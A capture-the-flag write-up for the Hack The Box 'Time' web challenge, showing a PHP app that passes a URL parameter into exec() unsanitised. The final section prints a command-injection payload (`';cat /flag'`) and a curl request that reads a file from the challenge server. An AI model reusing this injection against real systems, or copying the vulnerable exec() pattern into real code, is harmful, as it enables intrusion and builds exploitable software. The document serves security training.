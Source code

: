 # Time
> Get the current date and time, anytime, anywhere!

![Time homepage](./img/time.png)

After staring this instance and browsing to the given IP, it presented us with a page that simply told the current date / time. Switching between the two showed the changing string formats in the URL right off the bat. `?format=%Y-%m-%d` for the date and `?format=%H:%M:%S` for the time.

The page source was viewable using `Ctrl+U` or browser inspector.
```
<html>
<head>
  <meta name='author' content='makelaris, makelarisjr'>
  <meta name='viewport' content='width=device-width, initial-scale=1, shrink-to-fit=no'>
  <title>Time</title>
  <link link='preload' href='//fonts.googleapis.com/css2?family=Press+Start+2P&display=swap' rel='stylesheet'>
  <link rel='stylesheet' href='//maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css' integrity='sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm' crossorigin='anonymous'>
  <link rel='icon' href='/assets/favicon.png' />
  <link rel='stylesheet' href='/static/main.css' />
</head>
<body>
  <nav class="navbar navbar-dark bg-primary navbar-expand-lg mb-4">
    <a class="navbar-brand mb-0" href="?format=%H:%M:%S">🕒 What's the time?</a>
    <div class="collapse navbar-collapse" id="navbarSupportedContent">
      <ul class="navbar-nav">
        <li class="nav-item">
          <a class="nav-link" href="?format=%Y-%m-%d">📅 What's the date? <span class="sr-only">(current)</span></a>
        </li>
      </ul>
    </div>
  </nav>
  <div class="jumbotron vertical-center">
    <div class="container">
      <div class="container">
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> 2021-07-27<span class='text-muted'>.</span></h1>
      </div>
    </div>
  </div>
</body>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
</html>
```

I tried poking at it to assess if it could be an attack vector but didn't seem like it. 

The challenge also provided with the application source code that I could download and understand how it worked. So, that' what I did next.

# Examining the source code
Here's what the directory structure looked like:
```
$ tree .
.
├── Dockerfile
├── build_docker.sh
├── challenge
│   ├── Router.php
│   ├── assets
│   │   └── favicon.png
│   ├── controllers
│   │   └── TimeController.php
│   ├── index.php
│   ├── models
│   │   └── TimeModel.php
│   ├── static
│   │   └── main.css
│   └── views
│       └── index.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
└── flag
```

The `flag` file in the downloadable src code was not the actual flag. It was a fake flag kept there for testing as a placeholder.
```
$ cat flag
HTB{f4k3_fl4g_f0r_t3st1ng}
```

The actual flag still had to be fetched from the challenge (remote) server, but the flag location was unknown.

Next, I moved on to review some code. From the folders present in the `challenge` directory, it looked like an MVC (Model-View-Controller) architecture. I started off with `controllers/TimeController.php` file. Here are the contents:

```
$ cat controllers/TimeController.php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This code indicated that the controller created a new `TimeModel` object and passes off the `$format` variable to it. This means the input is being handled by the model. It was time to review the model in `models/TimeModel.php` file. Here are the contents:
```
$ cat models/TimeModel.php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Aaaand there was our vulnerability in how the user input was handled and then how it was used. No input validation, no sanitization. The app took whatever we gave it and executed it. Clear **command injection** vulnerability.  

The app constructed the command to be executed using
```
$this->command = "date '+" . $format . "' 2>&1";
```
and finally executed it using
```
$time = exec($this->command);
```

Now I had the vulnerability, but before proceeding I still needed to find the actual flag location. So, I just started briefly reviewing the rest of the src code files and found the flag's real location in the `Dockerfile`. Here are the contents:
```
$ cat Dockerfile
FROM debian:buster-slim

# Setup user
RUN useradd www

# Install system packeges
RUN apt-get update && apt-get install -y supervisor nginx lsb-release wget

# Add repos
RUN wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
RUN echo "deb https://packages.sury.org/php/ $(lsb_release -sc) main" | tee /etc/apt/sources.list.d/php.list

# Install PHP dependencies
RUN apt update && apt install -y php7.4-fpm

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php/7.4/fpm/php-fpm.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Setup permissions
RUN chown -R www:www /www /var/lib/nginx

# Copy flag
COPY flag /flag

# Expose the port nginx is listening on
EXPOSE 80

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```
`COPY flag /flag` indicated that the file was available at `/flag` on the remote target.

# Exploiting the vuln and challenge solution
I needed to craft an exploit string in a way that would let me "break out" of the quotes and then execute commands. So I wrote `';cat /flag'` and the final input to the application became
```
/?format=%H:%M:%S';cat /flag'
```
On the server side, command that would get executed would look like
```
date '%H:%M:%S';cat /flag'' 2>&1
```

Solve:

```
$ curl "http://165.227.225.92:32449/?format=%H:%M:%S';cat /flag'" | grep 'HTB'

  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1956    0  1956    0     0   4724      0 --:--:-- --:--:-- --:--:--  4724
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}<span class='text-muted'>.</span></h1>
```

Flag:

`HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}`